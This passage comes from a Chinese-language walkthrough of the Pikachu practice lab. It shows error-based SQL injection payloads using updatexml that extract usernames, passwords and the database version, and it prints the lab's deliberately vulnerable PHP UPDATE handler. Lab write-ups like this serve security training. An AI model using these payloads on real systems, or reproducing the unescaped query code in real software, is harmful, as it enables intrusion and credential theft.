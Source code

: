 老规矩,改 limit 后的数字

数据 `1' or updatexml(1,concat(0x7e,(select username from users limit 0,1)),0) or'')#`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/48.png)

数据 `1' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or'')#`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/49.png)

下面测试 update

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败,请重试';

        }
    }
}
```

**漏洞利用**

版本 `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = <注意!!!这里是你的用户名>;#`

例如我的: `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = 123;#`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/50.png)
